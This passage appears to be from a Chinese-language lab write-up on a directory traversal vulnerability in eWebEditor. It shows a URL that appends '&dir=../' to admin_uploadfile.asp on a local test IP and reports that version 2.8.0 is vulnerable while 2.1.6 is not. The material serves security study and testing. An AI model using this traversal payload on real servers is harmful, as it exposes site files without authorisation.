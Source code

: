 **2）目录遍历**


 

点击"上传文件管理" 然后选择样式目录。
 


 

![img](Eweb编辑器目录遍历漏洞.assets/20170301114431155)
 


 

在id=14后面加上&dir=../


 





```html
http://192.168.87.129:8123/admin_uploadfile.asp?id=14&dir=../
```



![img](Eweb编辑器目录遍历漏洞.assets/20170301114840486)
 


 

发现没有起作用，那就是2.1.6这个版本不存在这个漏洞。换成2.8.0。2.8.0存在这个漏洞


 

![img](Eweb编辑器目录遍历漏洞.assets/20170301120345663)
 


 

能遍历目录。
 


 

![img](Eweb编辑器目录遍历漏洞.assets/20170301120409132)
 


 